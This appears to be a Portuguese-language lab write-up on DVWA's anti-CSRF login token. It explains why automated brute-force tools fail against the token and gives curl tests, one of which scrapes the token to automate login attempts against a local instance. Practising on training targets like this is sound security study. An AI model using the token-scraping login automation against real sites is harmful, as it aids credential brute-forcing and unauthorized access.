 ### Como Funciona no DVWA

**Fluxo Normal:**
1. Usuário acessa `/login.php`
2. Servidor gera token único `ABC123` e armazena na sessão
3. Token é enviado no formulário como campo hidden
4. Ao submeter, servidor compara token do form com token da sessão
5. Se coincidirem: login processado
6. Se divergirem: login bloqueado

**Fluxo com Ataque Automatizado:**
1. Ferramenta acessa `/login.php` e recebe token `ABC123`
2. Ferramenta tenta login, mas o token já expirou
3. Servidor gera novo token `DEF456` para próxima requisição
4. Ferramenta continua usando token antigo `ABC123`
5. Todas as tentativas falham por token inválido

### Testes com Diferentes Abordagens

**Teste 1 - Token Estático:**
```bash
# Tentativa com token fixo 
curl -X POST http://127.0.0.1:42001/login.php \
  -d "username=admin&password=password&Login=Login&user_token=123456" \
  -s -w "Status: %{http_code}\n"
```

**Teste 2 - Sem Token:**
```bash
# Tentativa sem token 
curl -X POST http://127.0.0.1:42001/login.php \
  -d "username=admin&password=password&Login=Login" \
  -s -w "Status: %{http_code}\n"
```

**Teste 3 - Token Dinâmico:**
```bash
# Extraindo token dinamicamente
TOKEN=$(curl http://127.0.0.1:42001/login.php -s | grep -o "user_token' value='[^']*" | cut -d"'" -f3)
curl -X POST http://127.0.0.1:42001/login.php \
  -d "username=admin&password=password&Login=Login&user_token=$TOKEN" \
  -c cookies.txt -L -v
```

### Análise de Comportamento

**Padrões Identificados:**
- **Status 302 + Location: login.php** → Falha de autenticação
- **Status 302 + Location: index.php** → Login bem-sucedido
- **Status 200 com "Login failed"** → Credenciais incorretas
- **Status 200 sem redirecionamento** → Token CSRF inválido

---
